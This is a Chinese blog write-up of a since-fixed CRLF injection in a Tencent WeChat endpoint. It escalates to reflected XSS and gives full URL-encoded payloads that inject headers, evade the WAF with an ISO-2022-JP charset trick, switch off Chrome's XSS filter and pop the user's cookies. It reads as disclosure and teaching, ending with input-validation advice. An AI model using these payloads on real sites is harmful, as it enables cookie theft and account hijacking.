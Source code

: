 title: "CRLF Injection and Bypass Tencent WAF"
date: 2016-01-31 14:01:31
tags: [XSS, 安全]
---

## 前言

这是一篇关于HTTP Response Split（CRLF Injection）漏洞的及绕过腾讯WAF导致前端出现XSS的实例分析，个人觉得在这个过程中能学到点知识，因此整理出来分享一下，如果不感兴趣记得及时关闭页面。

## 关于HRS问题

我们都知道，HTTP协议是依靠两个CRLF，即`\r\n`来分割HTTP头部及响应体。基于这个认知，可以推出，HRS问题是由于服务端程序没有过滤掉头部中的特殊字符`%0D%0A`，直接输出到了返回的数据中，导致错误的解析。而在日常开发中，最常见的莫过于有以下的两种功能（1）URL跳转（2）Cookie的设置中出现。接下来的小节里，将会以一个Cookie实例作来说明这个问题的危害。实例在：http://wooyun.org/bugs/wooyun-2016-0173904， 目前腾讯已经修复了。

## 接口说明

这个接口在大家使用微信红包的过程中都用过，我用xxx.com代表接口的域名，具体接口的功能我就先不说，虽然危害不大。接口如下：
```
https://xxx.com/cgi-bin/xxx/geiwofahongbaowojiugaosuni?exportkey=&pass_ticket=a
```

返回
```
HTTP/1.1 200 OK
Server: nginx/1.6.0
Date: Sat, 30 Jan 2016 12:08:28 GMT
Content-Type: text/html; charset=gbk
Content-Length: 0
Connection: keep-alive
Cache-Control: no-cache, must-revalidate
Set-Cookie: pass_ticket=a; Domain=xxx.com; Path=/; Expires=Sun, 31-Jan-2016 12:08:28 GMT
```

在微信端这个接口其实没有什么问题，因为微信客户端会把这个参数替换掉，因此攻击者填入的参数就会被直接去掉，然而在浏览器中，却导致了XSS。

## 一步一个脚印

#### 0x00 插入img标签

从上面接口的返回数据中，可以看到pass_ticket参数的值出现在了Set-Cookie头部中，我们先试试能不能用插入两个CRLF，然后插入img标签。
```
exportkey=&pass_ticket=a%0d%0a%0d%0a%3Cimg%20src=1%3E
```
然而这个请求返回了空，浏览器根本不去解析body里的内容。不能放弃，通过curl分析一下，发现其实后端并没有过滤，请求都返回了，只是Content-Length为0导致浏览器认为Body为空，使用命令`curl -kv <url>`可以看到以下的错误提示。
```
* Excess found in a non pipelined read: excess = 84 url = 
  /cgi-bin/xxx/geiwofahongbaowojiugaosuni?exportkey=&pass_ticket=a%0d%0a%0d%0a%3Cimg%20src=1%3E
  (zero-length body)
```
知道问题之后，我们下一步就是想方法让Content-Length的值不为0！试着在头部插入`Content-Length: 60`,得到以下的URL
```
exportkey=&pass_ticket=a%0d%0aContent-Length:60%0d%0a%0d%0a%3Cimg%20src=1%3E
```
浏览器里访问，bingo，图片出现了！

```
HTTP/1.1 200 OK
Server: nginx/1.6.0
Date: Sat, 30 Jan 2016 12:15:03 GMT
Content-Type: text/html; charset=gbk
Content-Length: 60
Connection: keep-alive
Cache-Control: no-cache, must-revalidate
Set-Cookie: pass_ticket=a

<img src=1>; Domain=wx.tenpay.com; Path=/; Expires=Sun, 31-J
```

#### 0x01 尝试执行脚本

能够插入img标签之后，我半生不熟的前端知识告诉我，src=1，图片肯定会加载失败，失败了就会有onerror的事件发生。于是，试试下面的URL
```
exportkey=&pass_ticket=a%0d%0aContent-Length:60%0d%0a%0d%0a%3Cimg%20src=1%20onerror=alert(1)%3E
```
事实告诉我们，现实并没有想象中的美好，服务器直接返回了501，这是什么原因导致的？尝试几次之后推断是被WAF拦截了。WAF是Web Application Firewall的缩写，我们的“恶意”请求被它检查出来。试了一下，发现在被和谐的的onerror和alert中间插入一些其他字符，就不会被拦截，例如：`on\error=al\ert(1)`，然而这并没有什么卵用，因为这根本就不是合法的HTML属性。

#### 0x02 Bypass WAF

有WAF，就得考虑如何绕过，然而在确认了自己的认知范围里并没有绕过的方法后，我去请教了某大牛。以下是他提供的思路及Bypass WAF的例子：


大概原理就是： 

1. 插入Content-Type更改response中的charset
2. 选择一个字符集，保证该字符集中的某个字符或字符串会被浏览器忽略（也可以是unicode transform）
3. 将会被忽略的字符插入到被blacklist拦截的字符之间
4. done

```
exportkey=&pass_ticket=a%0D%0AContent-Length:120%0D%0AContent-Type:text/html;%20charset=ISO-2022-JP%0D%0A%0D%0A%3Cimg%20src=x%20on%1B%28Jerror=al%1B%28Jert%28document.domain%29%3E
```

看到他的回复后，我只有一个想法：人要有敬畏之心！后来找了一下，在Chrome的Issue List找到了一些相关的讨论，https://crbug.com/114941

#### 0x03 绕过浏览器的XSS过滤

由于是反射型的XSS，Chrome里直接访问的时候会发现它拦截了脚本的执行，虽然在firefox里是可行的。从上面中的分析过程中，我们可以知道一个事情：可以在返回的头部的信息里插入任何头部信息！这看上去很赞，于是就想起了Chrome的XSS过滤是可以被关闭的，只要你返回的头部中带有`X-XSS-Protection:0`，构造URL如下：

```
?exportkey=&pass_ticket=a%0D%0AContent-Length:120%0D%0AX-XSS-Protection:0%0D%0AContent-Type:text/html;%20charset=ISO-2022-JP%0D%0A%0D%0A%3Cimg%20src=x%20on%1B%28Jerror=%22al%1B%28Jert%28document.co%1B%28Jokie%29%22%3E
```
点击后可以看到页面弹出了用户的Cookie，好了。虽然我们的`xxx.com`只是它的某个子域，这里的Cookie却弹出了其他子域名的，为什么呢？因为前端用了`document.domain = xx.com`。

![](https://raw.githubusercontent.com/zhchbin/zhchbin.github.io/source/source/images/56af08cb143cfae54c9777d4NE61bZEx.png)

## 最后说几句

在这个过程中，你学到了什么呢？反思这个过程，我觉得是信息量好大。对于我们做开发的，我认为最重要的一点是，用户的输入都是不可信的（这句话已经被无数人说过无数次了应该）。另外我读了一下Python Web框架里的一些代码，发现有些框架已经帮我们处理掉部分问题，例如在Flask中调用设置Cookie的相关接口中，`werkzeug`会使用白名单的机制检查每个byte，如果发现恶意字符，则将输入的值中用双引号包围起来，同时还有转义一部分字符，具体代码在这里：https://github.com/mitsuhiko/werkzeug/blob/master/werkzeug/_internal.py#L222。

放几个参考链接：

0. https://en.wikipedia.org/wiki/HTTP_response_splitting
1. http://blog.bentkowski.info/2014/07/google-doodle-xss-actually-response.html 
2. http://drops.wooyun.org/papers/2466
